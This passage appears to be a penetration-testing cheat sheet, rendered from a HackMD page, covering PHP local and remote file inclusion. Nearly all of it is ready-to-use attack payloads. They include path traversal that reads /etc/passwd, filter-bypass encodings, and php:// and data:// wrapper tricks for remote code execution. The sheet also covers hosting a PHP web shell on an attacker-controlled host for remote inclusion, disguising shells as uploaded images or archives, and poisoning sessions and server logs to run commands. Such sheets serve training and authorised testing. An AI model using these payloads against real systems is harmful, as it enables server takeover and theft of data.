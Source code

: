 | `/index.php?language=../../../../etc/passwd`                                                      | LFI with path traversal                                   |
| LFI Bypasses                                                                                      |                                                           |
| `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                        |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                          |
| `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)       |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                               |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |

#### Remote Code Execution

![image](https://hackmd.io/_uploads/rkm_OMGja.png)

| Command                                                                                                                     | Description                           |
| --------------------------------------------------------------------------------------------------------------------------- | ------------------------------------- |
| PHP Wrappers                                                                                                                |                                       |
| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper                 |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper                |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper               |
| RFI                                                                                                                         |                                       |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`                              | Host web shell                        |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                                                     | Include remote PHP web shell          |
| LFI + Upload                                                                                                                |                                       |
| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                                                                     | Create malicious image                |
| `/index.php?language=./profile_images/shell.gif&cmd=id`                                                                     | RCE with malicious uploaded image     |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`                                              | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id`                                                                    | RCE with malicious uploaded zip       |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`                                                         | Create malicious phar 'as jpg'        |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`                                                  | RCE with malicious uploaded phar      |
| Log Poisoning                                                                                                               |                                       |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`                                                 | Read PHP session parameters           |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`                                               | Poison PHP session with web shell     |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`                                          | RCE through poisoned PHP session      |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`                                         | Poison server log                     |
| `/index.php?language=/var/log/apache2/access.log&cmd=id`                                                                    | RCE through poisoned PHP session      |
